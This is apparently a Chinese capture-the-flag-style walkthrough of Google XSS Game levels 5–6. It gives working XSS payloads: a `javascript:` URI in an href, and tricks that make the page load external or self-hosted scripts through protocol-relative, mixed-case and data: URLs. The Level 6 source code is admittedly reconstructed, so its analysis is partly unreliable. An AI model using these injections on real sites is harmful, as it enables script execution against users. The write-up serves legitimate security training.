










# Google XSS Game Level-05–06

> 本文为 [Google XSS Game 学习索引](README.md) 的章节拆分。仅限官方教学靶场或明确授权的环境。

---

## Level 5 — Breaking Protocol

### 漏洞类型

DOM 型反射 XSS（`javascript:` URI 注入到 `href` 属性）。

### 原理

页面从 URL 查询参数 `next` 中读取值，并将其作为“下一页”链接的 `href`。代码过滤了 `<script>` 标签和 `on` 事件属性（推测），但没有校验 URL 的协议，导致 `javascript:` URI 可以执行。

### 侦察过程

1. 访问 `https://xss-game.appspot.com/level5/frame/signup?next=confirm`，页面显示一个“Next”按钮。



2. 点击按钮，跳转到 `confirm` 页面。



3. 查看源码，发现类似：

```html
<a href="{{ next }}">Next</a>

```



4. 尝试 `next=<script>alert(1)</script>`，发现被过滤。



5. 尝试 `next=javascript:alert(1)`，点击按钮后弹窗。



### Payload

```plain
javascript:alert(1)
```

### 操作步骤

访问以下完整 URL：

```plain
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
```

页面加载后，点击“Next”按钮，弹窗触发。





### 原理解析

`javascript:` 是一种 URI 协议，当用户点击链接时，浏览器会执行其后的 JavaScript 代码。过滤机制只针对标签和事件属性，没有对 `href` 的协议做白名单校验。防御时应只允许 `http`、`https` 或相对路径。

***

## Level 6 — Follow the Rabbit

### 漏洞类型

DOM 型反射 XSS（动态脚本加载，URL 校验不严谨）。

### 原理

页面从 URL 的 fragment 中读取一个 URL，动态创建一个 `<script>` 标签，并将其 `src` 设为该 URL。代码尝试限制 URL 必须以 `https://` 开头，但校验逻辑存在缺陷（推测）。

### 侦察过程

1. 访问 `https://xss-game.appspot.com/level6/frame`。



2. 在输入框输入 `https://example.com/alert.js`，页面提示只允许 `https://` 开头的 URL。
3. 查看源码，发现类似：

```javascript
var url = location.hash.slice(1);
if (url) {
  if (!/^https?:\/\//.test(url)) {
    url = 'https://' + url;
  }
  var script = document.createElement('script');
  script.src = url;
  document.body.appendChild(script);
}
```

4. 推测：正则 `/^https?:\/\//` 只匹配小写协议，且如果 URL 不符合，会自动添加 `https://` 前缀。

### Payload

**协议相对路径（推荐）**

```plain
#//www.google.com/jsapi?callback=alert
```

**data URI**

```plain
#data:text/javascript,alert(1)
#data:text/javascript,alert('XSS')
#data:application/javascript,alert(1)
```

**大小写绕过**

```plain
#Https://你的js地址
#hTTP://你的js地址
#Https://www.google.com/jsapi?callback=alert
```

**自己托管 JS（协议相对）**

```plain
#//你的域名/alert.js
```

**完整推荐地址**：

```plain
https://xss-game.appspot.com/level6/frame#//www.google.com/jsapi?callback=alert
```

### 操作步骤

1. 访问：

```plain
https://xss-game.appspot.com/level6/frame#//www.google.com/jsapi?callback=alert
```



2. 页面会加载并执行你的脚本，弹窗出现。



### 原理解析

代码将 fragment 中的 URL 作为动态 `<script>` 的 `src`。由于校验允许 `https://` 开头的 URL，你可以加载任意外部 HTTPS 脚本。此关体现了**动态脚本加载**的风险：永远不要将用户可控的 URL 直接用作脚本源。

> **补充说明**：如果你不想搭建服务器，可以尝试 `#data:text/javascript,alert(1)`，但根据源码分析，代码可能会为其添加 `https://` 前缀而导致失效（推测）。在实际靶场中，使用外部 HTTPS 脚本是最可靠的方法。
